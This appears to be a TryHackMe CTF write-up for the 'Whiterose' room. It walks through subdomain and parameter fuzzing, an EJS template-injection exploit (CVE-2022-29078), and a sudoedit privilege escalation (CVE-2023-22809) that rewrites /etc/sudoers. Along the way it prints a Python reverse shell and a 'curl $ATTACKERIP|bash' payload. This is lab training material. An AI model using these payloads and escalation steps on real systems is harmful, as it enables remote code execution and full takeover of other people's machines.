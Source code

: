 ```yaml
---
title: 'TryHackMe: Whiterose'
author: batu7x
categories: [TryHackMe CTFs]
tags: [web, vhost, subdomain, fuzz, ejs, sudo, ssti, sudoedit]
render_with_liquid: false
media_subpath: /images/tryhackme_whiterose/
image:
  path: room.webp
---
```


![whiterose](whiterose.webp){: width="1200" height="600" }

## Enumeration

### Nmap Scan

```console
$ sudo nmap -Pn -sC -sV -vv -p- 10.10.35.45

Nmap scan report for 10.10.110.0
Host is up (0.10s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port **80** & **20** are open, ssh & http.

### Website

Firstly lets check the website, to check the website we need to add target ip to /etc/hosts with domain "cyprusbank.thm"

```console
10.10.110.0 cyprusbank.thm
```
{: file=/etc/hosts}

Saw an under maintenance page, tried to bruteforce directories with gobuster but nothing on it.
Lets enumerate subdomains with ***ffuf*** tool

```console
ffuf -u 'http://cyprusbank.thm/' -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -t 100 -ic -fw 1
```

![FFUF_0](ffuf0.webp){: width="1200" height="600" }

## Shell

### Web Shell

We will check **admin.cyprusbank.thm** Before we check the website again, add the admin.cyprusbank.thm to /etc/hosts file

```console
10.10.110.0 admin.cyprusbank.thm
```
{: file=/etc/hosts}

![FFUF_1](ffuf1.webp){: width="1200" height="600" }

Login the panel with the credentials they gave us `Olivia Cortez:olivi8`

Checking /messages page, we can see a chat is there.

![FFUF_2](ffuf2.webp){: width="1200" height="600" }

We will edit the `c` parameter's value in the URL. `c` parameter used to count of messages displayed.

We editing the value of the parameter: `http://admin.cyprusbank.thm/messages/?c=10` Now we see old messages.

![FFUF_3](ffuf3.webp){: width="1200" height="600" }

Now login to Gayle Bev's account. After logging into Gayle Bev's account, we got access to `/settings` page & phone numbers.

Here we got Tyrell Wellick's phone number

`/settings` page allow us to change the password of customers. Now we will Fuzz for any other parameters in `/settings`.

```console
ffuf -u 'http://admin.cyprusbank.thm/settings' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: connect.sid=s%3A963nX9s4XuaLZ6JKRqNZYl0NV8KcmG9M.jPobOtURlr8AXjDKhd2b4n79%2F%2Bw8Wea1axI%2F6Ak1ut8' -mc all -d 'name=abc&password=abc&FUZZ=abc' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -fs 2097
```

![FFUF_4](ffuf4.webp){: width="1200" height="600" }

`Client` & `include` parameters return a 500 response with error.

![FFUF_5](ffuf5.webp){: width="1200" height="600" }

From 500 Response we learnt it uses EJS engine. EJS have server side template injection CVE-2022-29078 we will use this vulnerability in this CTF.

We create an `index.html` file in our attacker machine and put python reverse shell in it

```console
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKERIP",$ATTACKERPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
{: .wrap }

And host a http server in the directory with `index.html` file

```console
python3 -m http.server 80
```
{: .wrap }

Send a request with our server side template injection payload

```console
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl $ATTACKERIP|bash');s
```
{: .wrap }

![FFUF_7](ffuf7.webp){: width="1200" height="600" }

We got our shell with the user: web, user.txt is in the home directory! After that lets move to privilege escalation.

### Root Shell

Firstly we will check the sudo privileges

```console
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass
User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

We can sudoedit on a file with root privileges. This sudoedit version got `CVE-2023–22809` privilege escalation vulnerability. Lets start escalation:

First we need to select editor & use sudoedit

```console
export EDITOR="nano -- /etc/sudoers"
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

This commands open the file in nano text editor. Add this line to the file & save.

```console
web ALL=(ALL:ALL) NOPASSWD: ALL
```

After that we grant full sudo privilege. Lets change the user to root

```console
sudo su
```

We got our shell as root and read the file at /root/root.txt

![FFUF_6](ffuf6.webp){: width="1200" height="600" }

Thanks for reading, happy hacking!

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>